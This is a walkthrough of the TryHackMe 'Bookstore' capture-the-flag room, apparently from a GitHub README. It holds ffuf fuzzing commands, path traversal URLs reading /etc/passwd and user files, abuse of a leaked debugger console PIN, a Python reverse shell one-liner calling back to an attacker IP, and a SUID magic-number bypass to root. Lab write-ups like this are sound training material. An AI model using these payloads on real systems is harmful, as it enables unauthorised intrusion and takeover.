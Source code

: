 # Bookstore CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Bookstore** CTF challenge on [TryHackMe](https://tryhackme.com/room/bookstoreoc). 
---

we see 3 open ports 22, 80 and 5000

![scn](imgs/scn.png "scn")

from nmap we know about disallowed entry /api on port 5000

by going there we see api documentation

![api](imgs/api.png "api")

i tried to fuzz parameters for /api/v2 but doesnt seem to work

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://$IP:5000/api/v2/resources/books?FUZZ=test
```

then i tried to fuzz the `/api/v1` and it worked, we found new parameter `show`

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -u http://$IP:5000/api/v1/resources/books?FUZZ=test
```

![ffuf](imgs/ffuf.png "ffuf")

if we simply check the `http://10.10.243.74:5000/api/v1/resources/books?show=test` we got some NameError: filename not defined

![err](imgs/err.png "err")

i also tested path traversal to /etc/passwd by going to `http://10.10.243.74:5000/api/v1/resources/books?show=../../../../../etc/passwd` and it works

![pt1](imgs/pt1.png "pt1")

if we take a look at this file we see shell users: root and sid

we can even grab user flag right now by going to `http://10.10.243.74:5000/api/v1/resources/books?show=../../../../../home/sid/user.txt` but we still need to gain shell access 

![user](imgs/user.png "user")

by enumerating the port 80 with ferox we found login page 

![ferox1](imgs/ferox1.png "ferox1")

on the login page there is a comment

```
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

![pininfo](imgs/pininfo.png "pininfo")

now we know about some debugger pin in .bash_history file in sid home folder

![pt2](imgs/pt2.png "pt2")

using ferox agian this time on port 5000 we found /console where we need to input pin !!

![fer2](imgs/fer2.png "fer2")

![pin](imgs/pin.png "pin")

now we have access to python console so its probably time for reverse shell

![cs](imgs/cs.png "cs")

we can execute to spawn revers shell as sid:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

in sid home folder we see SUID script try-harder

![home](imgs/home.png "home")

![suid](imgs/suid.png "suid")

![ex](imgs/ex.png "ex")

we can transfer the file and use ghidra to decompile it to C

![gh](imgs/gh.png "gh")

we see 

```
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
```

i asked chatGPT to write program in python that will calculate the magic number 

![py](imgs/py.png "py")

now we have root access and root flag !!

![root](imgs/root.png "root")

# MACHINE PWNED
